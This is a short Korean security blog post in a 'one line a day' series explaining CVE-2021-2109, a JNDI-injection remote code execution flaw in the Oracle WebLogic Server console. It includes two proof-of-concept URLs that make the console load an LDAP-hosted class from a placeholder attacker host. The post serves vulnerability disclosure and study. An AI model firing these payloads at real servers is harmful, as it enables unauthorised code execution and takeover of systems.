 ```yaml
---
title: "[하루한줄] CVE-2021-2109 : 오라클 Weblogic Server 원격 코드 실행 취약점"
author: L0ch
tags: [L0ch, cve, oracle, rce, jndi injection]
categories: [1day1line]
date: 2021-01-26 18:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[Weblogic Server remote code execution vulnerability warning (CVE-2021-2109)](https://mp.weixin.qq.com/s/wX9TMXl1KVWwB_k6EZOklw)

## Target

Oracle WebLogic Server 10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0 및 14.1.1.0.0

## Explain
오라클이 개발한 자바 웹 애플리케이션 서버인 Oracle WebLogic Server에서 JNDI Injection을 통한 원격 코드 실행 취약점의 세부 정보가 공개되었습니다.

> JNDI(Java Naming and Directory Interface) : 자바 애플리케이션에서 외부 디렉터리 서비스에 접근하기 위한 API로, 원격 서버의 객체를 bind 해 애플리케이션에서 접근할 수 있다.



해당 취약점은 두 클래스에서 발생하며 취약점이 발생하는 첫 번째 클래스인 `com.bea.console.handles.JndiBindingHandle` 에서는 바인딩할 JNDI의 `context`, `bindName`, `serverName` 정보를 파라미터로 받아 이를 인스턴스화 하고 `JNDIBindingAction`에서 처리합니다. 각 파라미터의 의미와 공격 조건은 다음과 같습니다.

- `context` : 원격 바인딩할 JNDI 서버 호스트

  - JNDI 서버로 구성한 해커의 호스트

- `bindName`: 바인딩할 JNDI 클래스 이름

  - 악성 코드를 실행하는 java 클래스 파일 이름

- `serverName` : 바인딩할 서버 이름

  - `AdminServer`

- 각 필드는 세미콜론 `;`으로 구분됩니다.

  <br>

해커의 서버 포트 1088에 악성 코드를 실행하는 java 클래스 파일 `exploit` 이 존재한다면 PoC는 아래와 같습니다.

```java
http://[victim_host]/console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle("ldap://[attacker_host];1:1088/exploit;AdminServer")
```

두 번째  `com.bea.console.handles.JndiContextHandle` 클래스에서는 `bindName`이 포함된 `context`와 `serverName`만을 받아 위와 동일한 환경에서 다음 PoC로 원격 코드 실행이 가능합니다.

```java
http://[victim_host]/console/console.portal?_nfpb=true&_pageLabel=EJBTestHomePage&EJBTestHomePagehandle=com.bea.console.handles.JndiContextHandle("ldap://[attacker_host]:1088/exploit;AdminServer")
```



## Reference

https://github.com/Al1ex/CVE-2021-2109